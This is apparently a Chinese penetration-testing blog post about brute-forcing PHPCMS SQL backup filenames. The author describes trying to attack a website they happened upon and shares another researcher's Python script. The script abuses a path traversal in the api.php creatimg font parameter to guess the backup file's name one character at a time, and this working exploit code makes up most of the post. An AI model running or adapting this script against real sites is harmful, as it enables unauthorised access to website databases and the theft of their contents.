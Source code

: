 ```yaml
---
title: PHPCMS SQL备份文件名猜解爆破验证
date: 2019-05-06 16:05:53
tags: 实战经验
categories: 渗透测试
---
```

## PHPCMS SQL备份文件名爆破验证概述
&#160; &#160; &#160; &#160;昨天在翻网站的时候，看见一个网站CMS是phpcms的，以前有过前台getshell的经验，就准备直接前台getshell，但是后来发现不能够注册，没法了。但是这种搞了半天让我放弃又不想，所以就百度了一波phpcms的漏洞，然后再I春秋看见了一个帖子，这位作者大概整理了一下phpcms的漏洞，其中我看见了一个PHPCMS SQL备份文件名爆破的逻辑漏洞，就按部就班的去搞了，结果在这实际搞的过程中发现了问题。

## 问题一：脚本问题
&#160; &#160; &#160; &#160;先分享一下这位作者的源代码：
```
#!/usr/bin/env python
# coding=utf-8
'''/*
    * author = Mochazz
    * team   = 红日安全团队
    * env    = pyton3
    *
    */
'''
import requests
import itertools
characters = "abcdefghjklmnopqrstuvwxyz0123456789_!#"
backup_sql = ""
payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
url = "http://192.168.0.106"
flag = 0
for num in range(1,7):
    if flag:
        break
    for pre in itertools.permutations(characters,num):
        pre = ''.join(list(pre))
        payload = payload.format(location=pre)
        r = requests.get(url+payload)
        if r.status_code == 200 and "PNG" in r.text:
            flag = 1
            backup_sql = pre
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
print("[+] 前缀为：",backup_sql)
flag = 0
for i in range(30):
    if flag:
        break
    for ch in characters:
        if ch == characters[-1]:
            flag = 1
            break
        payload = payload.format(location=backup_sql+ch)
        r = requests.get(url + payload)
        if r.status_code == 200 and "PNG" in r.text:
            backup_sql += ch
            print("[+] ",backup_sql)
```